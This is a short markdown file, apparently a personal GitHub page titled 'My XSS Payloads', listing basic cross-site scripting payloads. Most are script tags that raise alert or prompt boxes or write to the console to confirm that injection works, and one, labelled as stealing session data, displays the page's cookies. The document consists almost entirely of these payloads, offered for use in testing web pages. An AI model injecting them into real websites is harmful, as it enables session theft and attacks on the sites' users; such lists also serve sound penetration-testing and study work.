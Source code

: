 # My XSS Payloads

## Test if Payload is working
```1
<script>alert('SudoHopeX')</script>
```
```2
<script>alert(1)</script>
```
- When alert(1) is blocked
```
<script>prompt('XSS')</script>
```
- testing silently without alert boxes
```4
<script>console.log('XSS')</script>
```
- See (steal) session data.
```
<script>alert(document.cookie)</script>
```
